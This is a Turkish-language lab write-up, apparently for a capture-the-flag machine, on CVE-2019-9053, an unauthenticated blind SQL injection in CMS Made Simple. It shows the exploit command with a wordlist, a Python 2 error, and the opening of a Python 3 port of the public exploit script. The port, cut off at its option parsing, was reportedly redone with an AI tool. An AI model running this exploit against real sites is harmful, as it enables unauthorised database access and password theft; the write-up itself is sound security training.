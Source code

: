 #### Overview

CMS Made Simple'ın 2.2.10'dan önceki sürümleri, kimliği doğrulanmamış bir SQL enjeksiyon saldırısına karşı savunmasızdır. Bu bir blind saldırısıdır, bu nedenle çeşitli alanlardaki bir sonraki karakteri belirlemek için bir sleep deyimi ve response zamanlaması kullanır.

![Pasted image 20250204181339.png](/img/user/Pasted%20image%2020250204181339.png)

CMS Made Simple 2.2.8 sürümünde bir güvenlik açığı tespit edilmiştir. Bu açık, News modülü üzerinden, özel olarak hazırlanmış bir URL kullanılarak, `m1_idlist` parametresi aracılığıyla kimlik doğrulaması gerektirmeyen (unauthenticated) blind time-based SQL injection gerçekleştirilmesine olanak tanımaktadır.  [Kaynak](https://nvd.nist.gov/vuln/detail/CVE-2019-9053) .

#### Exploit

Packet Storm'da çok güzel bir POC (Proof of Concept) exploit bulunuyor. Zamanlamanın önemli olduğunu unutmamak gerekiyor, bu yüzden eğer sunucu yoğun bir şekilde kullanılıyorsa, bu durum işleri bozabilir. Script, çıktı konusunda bazı güzel numaralar yapmış. Bu GIF, exploitin tamamını gösteriyor (3 kat hızlandırılmış ve kırma adımından önce durdurulmuş, ancak çalışıyor):

![writeup-sqli-fast.gif](/img/user/writeup-sqli-fast.gif)
`./cmsms_sqli.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt` dosyasını çalıştırdığımda aşağıdaki sonuçları veriyor:

```
python3 46635.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
  File "/root/Desktop/46635.py", line 25
    print "[+] Specify an url target"
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?
```

Script **Python 2** ile yazılmış onun için böyle bir hata alıyoruz .

![Pasted image 20250204182450.png](/img/user/Pasted%20image%2020250204182450.png)

termcolor modülünü yüklersek başka bir hata alıyoruz . Kodu ChatGPT veya DeepSeek gibi yapay zeka ile python3'e uyumlu çalışacak şekilde tekrardan düzenlettirdim. Github sayfamda veya doğrudan buradan kopyalaya bilirsiniz.

```
#!/usr/bin/env python3
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053

import requests
from termcolor import colored, cprint
import time
import optparse
import hashlib

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url",
                  help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist",
                  help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking",
                  help="Crack password with wordlist", default=False)

(options, args) = parser.parse_args()
```